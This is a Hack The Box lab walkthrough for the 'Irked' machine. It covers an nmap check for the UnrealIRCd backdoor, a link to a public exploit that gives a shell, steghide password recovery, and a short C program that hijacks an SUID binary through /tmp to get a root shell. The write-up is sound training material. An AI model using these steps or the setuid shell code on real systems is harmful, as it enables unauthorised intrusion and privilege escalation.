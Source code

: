 ```yaml
---
title: "Hack The Box - Irked"
tags: [linux,easy,irc , UnrealIRCD , unreal ircd , vulnscript , nmap , steg , steghide , stegnography ,  SUID , hijack]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled.png)

## NMAP

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%201.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%202.png)

⇒ On webpage we didn't find anything interesting except a note saying something about IRC.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%203.png)

### Exploiting UnrealIRCd

⇒ Lets check if this version of UnrealIRCd is backdoored or not 

Reference : [https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html)

**`nmap -d -p6697 --script=irc-unrealircd-backdoor.nse 10.10.10.117`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%204.png)

**Looks like its vulnerable.**

⇒ Exploit : [https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

→ Ran it and got a shell :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%205.png)

### Privilege Escalation to User

→ We found an backup file in an user Documents folder 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%206.png)

Password : **UPupDOWNdownLRlrBAbaSSss**

→ Looks like its an password for steganography. There was an image named irked.jpg on the website lets try run steghide on it using the password we got

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%207.png)

→ SSH'ed in as user djmardov

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%208.png)

### Privilege Escalation to Root

⇒ We have SUID on `/usr/bin/viewuser`

→ Running strings on the binary we see that it runs /tmp/listusers binary. We can leverage this to escalate our privileges to root.

⇒ Exploiting the SUID 

→ listusers.c

```objectivec
int main(int argc, char **argv) {
	setuid(0);
	system("/bin/sh -i");
	return 0;
}
```

→ Compiling it and running viewuser again :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Irked%20Box%20bfe443dfa33149dc8787370ddb4e1154/Untitled%209.png)

